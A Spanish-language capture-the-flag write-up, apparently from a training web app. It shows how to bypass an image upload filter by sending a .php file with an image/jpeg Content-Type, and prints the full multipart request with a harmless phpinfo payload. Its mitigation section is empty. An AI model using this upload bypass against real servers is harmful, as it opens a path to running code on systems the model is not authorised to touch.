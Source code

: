 # Unrestricted File Upload
### A03:2021-Injection



## Ataque

- **Localización**: /?page=upload

En la vista tenemos un formulario que nos permite subir imágenes, lo que nos puede proporcionar una superficie de ataque para inyectar código propio y ejecutarlo en el servidor.

Comprobamos primero el formulario en si.

```html
<input type="hidden" name="MAX_FILE_SIZE" value="100000">
```
Lo único interesante que encontramos es un input oculto que sirve para pasar a la petición del formulario el tamaño máximo del archivo. Si no existe validación de este parámetro en el servidor, podemos cargar archivos de gran capacidad, provocando una caída de servidor.

Probamos la validación de tipo de fichero.
Tratamos de subir un script en **php** que consta de una función llamado `malicious_file.php`.
```php
 <?php phpinfo(); ?>
```

Al intentar subir el archivo, vemos que de algún modo valida el fichero y no nos lo permite, pero si cambiamos el nombre del archivo a `malicious_file.jpg`, vemos que nos reporta que se ha subido correctamente y nos proporciona una url para acceder a él.

Hemos podido subir nuestro script, pero al ser un fichero **jpg**, el intérprete de php no nos lo va a ejecutar en el servidor.

Vamos a ver en detalle la petición que se realiza para subir el archivo.

```bash
POST /?page=upload HTTP/1.1
Host: 192.168.222.47
Content-Length: 421
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://xxx.xxx.xxx.xxx
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryY6ZlA6O5iyi2PaOF
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://xxx.xxx.xxx.xxx/?page=upload
Accept-Encoding: gzip, deflate, br
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Connection: keep-alive

------WebKitFormBoundaryY6ZlA6O5iyi2PaOF
Content-Disposition: form-data; name="MAX_FILE_SIZE"

100000
------WebKitFormBoundaryY6ZlA6O5iyi2PaOF
Content-Disposition: form-data; name="uploaded"; filename="malicious_file.jpg"
Content-Type: image/jpeg

<?php phpinfo(); ?>

------WebKitFormBoundaryY6ZlA6O5iyi2PaOF
Content-Disposition: form-data; name="Upload"

Upload
------WebKitFormBoundaryY6ZlA6O5iyi2PaOF--
```

De todos estos parámetros, vemos que el único posible para validar el archivo es que indica el tipo de contenido del archivo, por lo que editamos la petición para que el archivo subido tenga la extensión **php**, pero el tipo de contenido sea **image/jpeg**. 

Posteamos y obtenemos la flag.

## Mitigación

## Referencias